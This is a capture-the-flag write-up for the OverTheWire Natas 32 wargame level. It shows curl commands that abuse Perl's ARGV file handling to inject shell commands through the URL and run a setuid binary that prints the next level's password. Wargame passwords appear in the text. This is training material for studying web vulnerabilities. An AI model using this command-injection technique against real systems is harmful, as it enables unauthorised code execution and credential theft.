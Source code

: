 ```yaml
---
category: natas
title: Natas32 - RCE and Privilege Escalation
---
```


website: http://natas32.natas.labs.overthewire.org/ (password: no1vohsheCaiv3ieH4em1ahchisainge)

This challenge is similar to the previous one with a major difference: The file <small>/etc/natas_webpass/natas33</small> is readable for root only.
However, with the parameter `?ls%20-l%20.%20|` in URL, we can see there is a binary file <small>getpassword</small> with `sid` set:

```shell
$ curl -u natas32:no1vohsheCaiv3ieH4em1ahchisainge "http://natas32.natas.labs.overthewire.org/index.pl?ls%20-l%20.%20|" \
       -F "file=ARGV" -F "file=@natas32.csv;type=text/csv"
...
<table class="sortable table table-hover table-striped"><tr><th>.:
</th></tr><tr><td>total 164
</td></tr><tr><td>drwxr-x--- 5 natas32 natas32  4096 Dec 15  2016 bootstrap-3.3.6-dist
</td></tr><tr><td>-rwsrwx--- 1 root    natas32  7168 Dec 15  2016 getpassword
</td></tr><tr><td>-rwxr-x--- 1 natas32 natas32   235 Dec 15  2016 getpassword.c
</td></tr><tr><td>-rwxr-x--- 1 natas32 natas32   236 Dec 15  2016 getpassword.c.tmpl
</td></tr><tr><td>-rwxr-x--- 1 natas32 natas32  9667 Dec 15  2016 index-source.html
</td></tr><tr><td>-rwxr-x--- 1 natas32 natas32  2952 Dec 15  2016 index-source.pl
</td></tr><tr><td>-rwxr-x--- 1 natas32 natas32  2991 Dec 15  2016 index.pl
</td></tr><tr><td>-rwxr-x--- 1 natas32 natas32  2952 Dec 15  2016 index.pl.tmpl
</td></tr><tr><td>-rwxr-x--- 1 natas32 natas32 97180 Dec 15  2016 jquery-1.12.3.min.js
</td></tr><tr><td>-rwxr-x--- 1 natas32 natas32 16877 Dec 15  2016 sorttable.js
</td></tr><tr><td>drwxr-x--- 2 natas32 natas32  4096 Nov 12 17:31 tmp
</td></tr></table><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```

Note that in the above command, the form data `-F "file=ARGV"` must be ahead of the real file `-F "file=@natas32.csv;type=text/csv"` because the line `my $file = $cgi->param('file');` will take whatever comes first returned by `param('file')`.

Passing the URL a parameter `./getpassword%20|` will return natas33's password:

```shell
$ curl -u natas32:no1vohsheCaiv3ieH4em1ahchisainge "http://natas32.natas.labs.overthewire.org/index.pl?./getpassword%20|" \
       -F "file=ARGV" -F "file=@natas32.csv;type=text/csv"
...
<table class="sortable table table-hover table-striped"><tr><th>shoogeiGa2yee3de6Aex8uaXeech5eey
```

